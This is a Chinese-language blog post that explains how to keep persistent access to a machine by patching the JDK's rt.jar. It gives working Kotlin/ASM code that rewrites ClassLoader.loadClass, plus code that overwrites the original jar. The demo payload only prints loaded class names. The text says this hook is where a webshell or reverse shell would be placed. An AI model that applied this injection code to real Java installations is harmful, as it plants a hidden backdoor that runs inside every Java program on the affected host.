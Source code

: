 ```yaml
---
title: java rt.jar 代码注入
description: ''
publishedDate: 2023-09-28
# updatedDate:
heroImage: './assets/20230928_jvm-rt-code-injection_00.jpg'
tags:
  - 'jvm'
  - 'java'
  - 'security'
---
```


## 前言

众所周知rt.jar是JDK中的一个jar包，里面包含了JDK中的核心类库，如java.lang、java.util等，这些类库是JDK中的基础类库，是JDK中的核心，也是Java程序运行的基础。在Java程序运行时，JVM会自动加载rt.jar中的类库，这些类库会被加载到JVM的内存中，供Java程序使用。<br/>
因此，如果我们能够在rt.jar中注入一些代码，那么这些代码就会被JVM加载到内存中，在每次Java程序运行时，这些代码都会被执行，这样就可以实现权限维持。

## 尝试

最初的尝试是直接修改`rt.jar`，将一些代码注入到常用的类库中，如`java.lang.String`、`java.util.ArrayList`等，但是这样做有两个问题。

1. jvm初始化`ClassLoader`时很多类并未加载，这时在注入的代码里做操作会导致jvm初始化失败。
2. 由于双亲委派机制，注入代码无法访问到更下级的类，例如`Tomcat`等容器自定义的`ClassLoader`，这样无法利用一些web应用维持权限。

经过多次尝试决定将注入的代码注入到`java.lang.ClassLoader`中，在`ClassLoader`加载类时执行注入的代码，根据要加载的类名判断是否需要将代码注入到该类中。
这样我们可以根据加载的类判断当前运行的程序类型，根据程序类型选择注入的代码，例如web应用可以选择注入`webshell`，命令行程序直接`反弹shell`等。

## 实现

注入

```kotlin
private fun inject(data: ByteArray): ByteArray {
  val reader = ClassReader(data)
  val writer = ClassWriter(ClassWriter.COMPUTE_FRAMES or ClassWriter.COMPUTE_MAXS)

  reader.accept(object : ClassVisitor(Opcodes.ASM9, writer) {
    override fun visitMethod(
      access: Int,
      name: String,
      descriptor: String?,
      signature: String?,
      exceptions: Array<out String>?
    ): MethodVisitor {
      val mv = super.visitMethod(access, name, descriptor, signature, exceptions)
      if ("loadClass" == name) {
        println("injecting $name $descriptor")
        return object : MethodVisitor(Opcodes.ASM9, mv) {
          override fun visitCode() {

            val raw = Label()
            val tryStart = Label()
            val tryEnd = Label()
            val catchStart = Label()
            // 创建try-catch块，确保注入的代码不会影响ClassLoader的正常运行
            visitTryCatchBlock(tryStart, tryEnd, catchStart, "java/lang/Throwable")
            visitLabel(tryStart)

            // 打印加载的类名
            // System.out.println(arg1);
            visitFieldInsn(
              Opcodes.GETSTATIC,
              "java/lang/System",
              "out",
              "Ljava/io/PrintStream;",
            )
            visitVarInsn(Opcodes.ALOAD, 1)
            visitMethodInsn(
              Opcodes.INVOKEVIRTUAL,
              "java/io/PrintStream",
              "println",
              "(Ljava/lang/Object;)V",
              false,
            )


            visitLabel(tryEnd)
            // 跳转到原始代码
            visitJumpInsn(Opcodes.GOTO, raw)

            visitLabel(catchStart)
            // 真实环境这里不应该直接打印，替换成visitInsn(Opcodes.POP)
            visitMethodInsn(
              Opcodes.INVOKEVIRTUAL,
              "java/lang/Throwable",
              "printStackTrace",
              "()V",
              false,
            );

            // 原始代码位置
            visitLabel(raw)


          }
        }
      }
      return mv
    }


  }, 0)

  return writer.toByteArray()
}
```

生成新`rt.jar`

```kotlin
// 获取rt.jar路径
val rtPath = Path(javaHome) / "jre" / "lib" / "rt.jar"

// 读取rt.jar
val rtJar = ZipFile(rtPath.toFile())
// 创建临时文件
val tempJar = File.createTempFile("test", ".data")
val zos = ZipOutputStream(tempJar.outputStream().buffered())

try {

  // 遍历rt.jar中的所有文件
  for (entry in rtJar.entries()) {
    var data = rtJar.getInputStream(entry).readAllBytes()
    var injected = false

    // 如果是ClassLoader.class则注入代码
    if (entry.name == "java/lang/ClassLoader.class") {
      data = inject(data)
      injected = true
    }

    entry.compressedSize = -1
    zos.putNextEntry(
      if (injected) {
        newZipEntry(entry, data)
      } else {
        entry
      }
    )
    zos.write(data)

  }
  // 将临时文件替换为新的rt.jar
  tempJar.renameTo(rtPath.toFile())
} finally {
  zos.close()
  tempJar.delete()
}
```

反编译执行注入后的`ClassLoader`代码
![](./assets/20230928_jvm-rt-code-injection_01.jpg)

执行测试程序

```java
package org.example;
public class Test {
    public static void main(String[] args) throws Exception {
        System.out.println("Main running...");
    }
}

// 输出
// ......
// java.io.InputStreamReader
// java.io.InputStreamReader
// java.io.InputStreamReader
// java.net.Socket
// java.net.Socket
// java.net.Socket
// org.example.Test
// org.example.Test
// org.example.Test
// java.io.PrintStream
// java.io.PrintStream
// java.io.PrintStream
// Main running...
```
